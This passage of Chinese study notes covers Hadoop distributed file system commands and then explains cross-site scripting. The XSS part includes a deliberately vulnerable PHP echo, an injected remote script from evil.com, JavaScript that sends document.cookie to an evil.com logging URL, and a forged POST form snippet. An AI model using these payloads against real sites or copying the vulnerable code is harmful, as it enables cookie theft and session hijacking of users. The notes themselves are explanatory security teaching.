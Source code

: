 分布式文件系统拥有自己独特的内容组织结构，便于对大规模存储和复制进行合理规划，例如Hadoop：
```
hadoop dfs -ls
hadoop dfs -mkdir html
hadoop dfs -put /data/www/htdocs/index.htm html/
...
```
MogileFS，基于perl实现，略。

分布式文件系统内部可能跨越多个服务器，并根据规则进行自动的文件复制。在分布式文件系统中，所有的文件都存储在被称为存储节点的地方，一个存储节点往往对应物理磁盘上的一个实际目录。追踪器负责存储节点之间的调度（负载均衡、故障转移、控制复制策略等），并响应用户的请求。

**分布式文件系统的好处**
* 组建包含大量廉价服务器的海量存储系统；
* 通过内部的冗余复制，保证文件的可用性；
* 拥有非常好的可扩展性；
* 可以通过扩展来保证性能；




## 跨站脚本攻击（XSS）

Cross Site Script，指通过HTML注入篡改了网页，插入恶意脚本，从而在用户浏览网页时执行攻击。（一开始这种攻击都是用来演示跨域攻击的，所以叫跨站脚本，到如今是否跨域已经不再重要）

例：
```
<?php
$input = $_GET["param"];
echo "<div>" . $input . "</div>";
?>
```
提交这样一个请求：
```
test.php?param=<script>alert(/xss/)</script>
```

**XSS Payload**
XSS Payload实际上就是JavaScript脚本，所以任何JavaScript脚本能实现的功能XSS Payload都能做到。比如读取Cookies，从而发起Cookies劫持攻击（Cookies中可能有登录凭证）；
例如攻击者先加载这样一个远程脚本：
http://www.a.com/test.html?abc="><script src=http://www.evil.com/evil.js></script>"，正在的Payload写在这个远程脚本中从而避免直接在URL参数中写入大量的Javascript代码。在evil.js中通过如下方式窃取Cookies：
```
var img = document.createElement("img");
img.src = "http://www.evil.com/log?"+escape(document.cookie);
document.body.appendChild(img);
```
【test.html的内容没有，上面的例子不通顺，艹】


同样的，可以通过img的src标签来发起GET请求。对于POST请求，则可以通过JavaScript动态构造一个表单，然后自动提交这个表单来实现：
```
var f = document.createElement("form");
f.action = "...";
f.method = "post";
document.body.appendChild(f);

var il = document.createElement("input");
il.name = "ck";
il.value = "dd";
f.append(il);

f.submit();
```
